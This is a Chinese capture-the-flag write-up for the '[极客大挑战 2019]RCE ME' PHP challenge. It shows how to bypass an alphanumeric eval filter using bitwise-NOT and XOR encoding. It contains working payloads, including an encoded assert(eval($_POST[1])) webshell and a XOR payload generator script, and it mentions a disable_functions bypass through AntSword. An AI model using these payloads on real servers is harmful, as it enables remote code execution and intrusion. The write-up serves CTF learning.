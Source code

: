 # [极客大挑战 2019]RCE ME

## 知识点

`正则表达式绕过`

`异或绕过`

`取反绕过`

## 解题

题目直接给出了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>

```

发现会过滤`大小写字母和数字`，可以使用`取反绕过`和`异或绕过`

### 1.取反绕过
```php
<?php
echo urlencode(~'phpinfo'); // %8F%97%8F%96%91%99%90
```

![alt text](<img/[极客大挑战 2019]RCE ME-1.png>)

然后尝试构造`assert(eval($_POST[1]))`

```php
<?php
echo urlencode(~'assert');  // %9E%8C%8C%9A%8D%8B

echo urlencode(~'eval($_POST[1])');     // %9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6
```

![alt text](<img/[极客大挑战 2019]RCE ME-2.png>)

可以实现`RCE`，只是`disable_function`太多，用`蚁剑`连接后使用插件`绕过disable_function`，可以一个个试,我这里用的是`PHP7_Backtrace_UAF`

![alt text](<img/[极客大挑战 2019]RCE ME-3.png>)


### 2.异或绕过

生成异或内容的脚本
```php
<?php
function gen($pl) {
    $aa = "";
    $bb = "";
    for ($j = 0; $j < strlen($pl); $j++) {
        for ($i = 0xa0; $i < 0xff; $i++) {
            if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
                $t = chr($i) ^ $pl[$j];
                if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
                    $aa .= chr($i);
                    $bb .= $t;
                    break;
                }
            }
        }
    }
    return str_replace("%", "\x", urlencode($aa) . "^" . urlencode($bb) . "\r\n");
}
function gen_url($pl) {
    $aa = "";
    $bb = "";
    for ($j = 0; $j < strlen($pl); $j++) {
        for ($i = 0xa0; $i < 0xff; $i++) {
            if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
                $t = chr($i) ^ $pl[$j];
                if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
                    $aa .= chr($i);
                    $bb .= $t;
                    break;
                }
            }
        }
    }
    return urlencode($aa) . "^" . urlencode($bb). "\r\n";
}

echo gen("_GET");
echo gen_url("_GET");


echo "\n";
echo "\xA0\xA0\xA0\xA0"^"\xFF\xE7\xE5\xF4";
echo "\n";

echo "\n";
echo urldecode("%A0%A0%A0%A0")^urldecode("%FF%E7%E5%F4");
echo "\n";
```

![alt text](<img/[极客大挑战 2019]RCE ME-4.png>)

后续和上面相同即可
